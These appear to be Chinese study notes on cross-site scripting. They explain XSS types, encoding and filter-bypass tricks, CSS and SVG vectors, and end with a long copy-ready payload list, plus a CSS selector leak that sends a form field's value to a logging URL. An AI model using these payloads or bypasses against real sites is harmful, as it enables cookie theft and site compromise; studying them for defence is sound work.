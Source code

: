 ### 基本原理

#### 简介

> XSS在我看来是较为简单的漏洞，这是因为：一.它涉及的语言少，核心是Javascript，需要了解HTML、CSS（有时需了解不同浏览器的特性），后端语言和框架则不用在意，只需要关注其防护方式即可；二.类型少，只有反射性、存储型和DOM型三种；三.防御起来较为简单，只要注意对所有输出采用HTML实体编码，基本上很难产生XSS漏洞。
> 
> 虽然XSS较为简单，但其攻击方式的多样，使得其危害不小，以前听闻很多厂商都不收XSS的洞，这是我不敢苟同的。
> 
> 这里关于XSS的三种类型，之来区分一下反射型和DOM。有人说大多数DOM属于反射型，反射型很直观的特点是，在存在漏洞的地方写入JavaScript脚本后，脚本经过后端不严格的过滤又回到前端执行，对于攻击者来说，他需要构造好一个URL给被攻击者。而DOM型与此极其类似，不同的是，DOM型写的Javascript攻击脚本不会被发送到后端，因为有些场景是前端的JavaScript对输入进行操作（要非常注意innerHTML），而无需发送到后端，这个时候，如果处理输入的JavaScript没有进行严格过滤，攻击者同样可以构造恶意脚本。

#### XSS与CSRF

> XSS和CSRF有一些类似的地方，XSS的反射型和DOM漏洞都依赖于被害人点击攻击者精心构造的链接，CSRF也是这样，不同的是CSRF攻击的方式更为直接了，它无需构造什么Javascript攻击脚本，它构造的链接是目标网站本就有的功能，例如删除某一篇文章，当被害人点击这个url且浏览器本地有尚未过期的cookie时，攻击就完成了。检查CSRF是否存在的方式也很简单，只需要看referer字段是否存在并有效即可，另外，网站为了防御CSRF的攻击，也经常采用提示跳转页的方式。

### 攻击

#### 攻击的两大方式

##### 构造标签内属性

```javascript
<input type="keyword" value="attack">
```

> 假设我们在某处的输入会放在上面的value中，此时，我们可以通过构造类似下面的啊脚本完成攻击

```javascript
// 我们输入了"onclick=alert()"，闭合前面属性的值，然后后面添加了一个可以执行JavaScript脚本的属性
// 这里的onclick可以替换成许多响应事件的函数
<input type="keyword" value=""onclick=alert()"">
```

##### 构造标签

```javascript
<input type="keyword" value="attack">
```

> 与上面相同的

```javascript
// "><script>alert()</scr11ipt><"是我们输入的内容
<input type="keyword" value=""><script>alert()</script><"">
```

#### 补充：有关JavaScript伪协议

> 例如onclick="myFunc()"这样的事件可以执行JavaScript，它也支持onclick="javascript:alert();"这种伪协议的写法，在浏览器打开javascript：URL的时候，它会将url当作JavaScript代码运行，当返回值不为undefined的时候，=前的属性将会被赋值为JavaScript的执行结果。
> 
> src、href等属性的合法内容除了是url外，还可以直接跟内容，例如\<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">\</a>，JavaScript伪协议的最后一条语句执行产生的字符串将被视为数据内容。
> 
> 注意“当返回值不为undefined的时候”，url可以是用分号分割的多条JavaScript语句，这意味着当我们希望攻击更隐蔽的发生时，可以采用href=" javascript:window.open("about:blank");void 0;"这样的写法，最后的void 0 将会使前面的JavaScript代码无法改变当前页面的dom元素。
> 
> 支持JavaScript伪协议的有src、href等可以加载链接的属性，也有例如onclick、onload这样的事件

##### \<a href="" target="\_blank">中的target="\_blank"限制JavaScript伪协议的作用

target="\_blank"属性是表明按照href的链接打开一个新窗口，当href的内容为JavaScript伪协议时，其不会生效

#### 补充：编码

##### 浏览器解码顺序

> 浏览器–>`HTML解码-->URL解码-->JavaScript解码`
> 
> https://blog.csdn.net/qq_33181292/article/details/117251090

##### html实体编码

> HTML实体编码有三种写法，实体名称\&lt; 十进制实体编码\&#60; 十六进制实体编码\&#x003c。HTML实体编码可以用于编辑“数据状态中的字符引用”、“属性值状态中的字符引用” 和 “RCDATA状态中的字符引用” 

* 数据状态中的字符引用：数据状态就是解析一个标签内里面的内容，如 `<div>...</div>` 中的内容
* 属性值状态中的字符引用：属性值状态中的字符引用就好理解了，就是src，herf这样的属性值中的HTML实体，他也是会先进行HTML解码的，比如下面的语句，会先对里面HTML解码，然后再继续往下执行

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

* RCDATA状态中的字符引用:HTML中有五类元素
  
  * 空元素(Void elements)，如 `<area>`、`<br>`、`<base>` 等等。空元素不能容纳任何内容，因为它们没有闭合标签，没有内容能够放在开始标签和闭合标签中间。
  
  * 原始文本元素(Raw text elements)，有 `<script>` 和 `<style>`。原始文本元素可以容纳文本。
  
  * RCDATA元素(RCDATA elements)，有 `<textarea>` 和 `<title>`。RCDATA元素可以容纳文本和字符引用。

> 注意到注意到RCDATA元素中有\<textarea\> 和 \<title\> 两个属性并且有字符引用，也就是当实体字符出现在这两个标签里面的时候，实体字符会被识别并进行HTML编码解析。这里要再提醒一次，在解析这些字符引用的过程中不会进入“标签开始状态”，所以就不会建立新的标签，所以下面这个语句触发不了XSS，这涉及到了RCDATA的一个特殊的情况。即在浏览器解析RCDATA元素的过程中，解析器会进入“RCDATA状态”。在这个状态中，如果遇到“<”字符，它会转换到“RCDATA小于号状态”。如果“<”字符后没有紧跟着“/”和对应的标签名，解析器会转换回“RCDATA状态”，并不会进入“标签开始状态”的。**这意味着在RCDATA元素标签的内容中，唯一能够被解析器认做是标签的就只有 \</textarea\> 或者 \</title\>**，因此，在 <textarea> 和 <title> 的内容中不会创建标签，就不会有脚本能够执行了。另外，刚刚也谈到了，**`<script>` 和 `<style>`是原始文本元素，在这两个标签内部的内容只有文本，因此，html实体编码在这里无效**。

![image-20230906170541489](.\images\image-20230906170541489.png)

![image-20230906170634555](.\images\image-20230906170634555.png)

![image-20230906170658759](.\images\image-20230906170658759.png)

​    仅有\<p\>...\</p\>内的JavaScript执行

* 总结：利用html实体编码进行绕过执行JavaScript只有在编码支持JavaScript伪协议的属性的属性值时有用，在其他地方试图使用HTML实体编码编码\<\> 属性值 标签名等是达不到效果的。虽然上面提到了用html实体编码编码\<script\>标签内的JavaScript代码也是不生效的，但是我们可以利用\<svg\>标签达成我们的目的，这一点后面再说。

##### JavaScript编码

见链接

##### base64编码

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<!--base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg 解码：<script>alert(1)</script>-->
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
<iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
```

##### 多层编码

见链接

#### 补充：注释

```html
<!--这是单行注释-->
<!--
    这是多行注释
    这是多行注释
    这是多行注释
-->
```

```css
/*这是单行注释*/

/*
    这是多行注释
    这是多行注释
    这是多行注释
*/
```

```javascript
//这是单行注释
/*
    这是多行注释
    这是多行注释
    这是多行注释
*/

// 这里输入了</address> <img src=# onerror=alert(1)//，起到了闭合前文引号的同时注释后面的引号
<img src="</address> <img src=# onerror=alert(1)//">
```

> 注释的使用：html注释常常用来闭合标签；JavaScript的注释可以在在一些不和闭合引号的地方将其注释

#### 过滤和绕过

##### 关键字过滤

* 大小写绕过
* 双写绕过
* 编码绕过
* 回车、tab、空格、注释、括号等分割引号或者script标签内的**JavaScript语句**

```javascript
/*添加空格、TAB、回车、换行：*/alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)
/*添加多行注释：*/alert/*abcd*/(/xss/)
/*添加注释换行：*/alert//abcd%0A(/xss/)、confirm//abcd%0D(/xss/)
/*使用''代替()：*/alert'xss'
/*使用括号分割：*/(alert)(/xss/)、((alert))(/xss/)
```

注意分割的地方，直接将一个关键字aler%20t分开是不行的，空格符分割涉及到JavaScript的**no LineTerminator here**规则和自动插入分号规则。

##### 关键字变形

* 大小写
* 编码

##### 特殊符号过滤

> 全过滤了肯定无法绕过，针对过滤不完全的情况则有很多方法，主要是有很多字符可以作为替换方案

* 过滤了引号：html可以不用引号；JavaScript可以用反引号
* 过滤了&符号阻止编码：可以使用其他编码
* 过滤了括号：有些JavaScript函数后可以不加括号，或者用 //分割
* 对url进行过滤
  * 过滤http：可以直接用\\\\代替http:\\\
  * 过滤 . :可以用。代替，有些浏览器会自动优化中文句号
* 过滤了空格
  * 使用其他空白字符代替 %0d %0a

##### 将特殊字符转化为HTML实体

* 以php为例，默认的htmlspecialchars()不过滤单引号，因此使用htmlspecialchars()时需注意合理设置
* 有的场景下，前端输入的返回是在script标签或则JavaScript伪协议内，这时htmlspecialchars()完全无效

##### 利用函数

* 这里利用一些函数就可以使用字符串拼接成JavaScript关键字和函数进行

```javascript
// window.alert("hello world")
window["ale" + "rt"]("Hello, World!");

eval("wind" + "ow.alert('Hello, World!');");

var obj = { ale: { rt: function(msg) { alert(msg); } } };
obj["ale"]["rt"]("Hello, World!");

document.write('<script>alert(document.cookie)<\/script>')
```

#### 利用CSS进行XSS

```css
/* 利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码 */
/*  很多浏览器都禁用了，貌似仅IE支持 */
/*  */
<div style="background-im-age:url(javascript:alert('xss'))">
<div style="width:exp/*这里可以注释*/ression(alert('xss'));">

/* 产生的新的攻击方式 */
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

#### 与SVG有关的XSS

##### SVG标签结合html实体编码绕过

```html
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

* 此时\<script\>内的JavaScript支持html实体编码

##### 利用svg文件上传进行XSS

> 代码中的SVG标签和onload事件本身并不依赖于其他特定的标签来触发弹窗。无论它们被放置在哪个标签内，只要浏览器解析并加载了这个SVG标签，onload事件就会被触发。
> 
> SVG标签通常是在HTML文档中嵌入使用的，并且可以放置在许多不同的HTML标签内。具体取决于网页的结构和用途。以下是一些常见的情况：

```html
<body>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</body>

<div>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</div>

<img src="data:image/svg+xml,<svg onload='alert(document.domain)'>">

<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

[用SVG绕过浏览器XSS审计 - r00tgrok - 博客园 (cnblogs.com)](https://www.cnblogs.com/r00tgrok/p/SVG_Build_XSS_Vector_Bypass_Firefox_And_Chrome.html)

### 利用

#### 基本方式

> XSS产生在于后端没有对输入的数据进行检查既返回前端，攻击者可构造script脚本进行提交。当使用GET方法提交数据时，可以直接构造型如url?query=<script>给被害人；当使用POST方法提交数据时，则需要我们在自己的服务器上构造一个恶意页面，使用表单的方式提交数据，注意此处我们写入的恶意脚本在哪，我们的恶意脚本并不是在在我们的恶意界面起作用，因为恶意界面由于同源策略等浏览器安全策略，是获得不了被害人在目标站点的cookie的，我们的恶意脚本是作为输入提交到了目标站点。

### 防御

* HttpOnly
* 在响应报文的header中配置X-XSS-Protection

### 附常用payload

```html
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<div onmouseover='alert(1)'>DIV</div>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>

<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<body onload="alert('xss');"></body>

<!-- css相关的xss -->
<div style="background-image:url('http://127.0.0.1/xss.gif')"></div>
<style>body {background: url('http://127.0.0.1/xss.gif')}</style>
<!-- expression()表达式在IE7及以下是有效的，在IE8及以上就失效了 -->
<div style="{left: expression(alert('xss'))}"></div>
<!-- 利用 @import 引入外部 js -->
<!-- 被引用的css body {event: expression (onload = function() {alert('XSS');})} -->
<style type="text/css">@import url(http://www.xx.css)</style>
<!-- 还可以利用 @import 直接执行 XSS 代码 -->
<style>@import "javascript:alert('xss')";</style>
```

* 整理补充

```html
<button formaction=javascript:alert(1)></button><!-- 试验过，单独无法触发xss，需配合input标签？ -->


<!-- <frame> <object>等多重嵌套，iframe内即为<object> -->
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
<iframe
src="data:text/html;base64PG9iamVjdCBkYXRhPSJkYXRhOnRleHQvaHRtbDtiYXNlNjQsUEhOamNtbHdkRDVoYkdWeWRDZ3ZlSE56THlrOEwzTmpjbWx3ZEQ0PSI+PC9vYmplY3Q+=="
></iframe>
```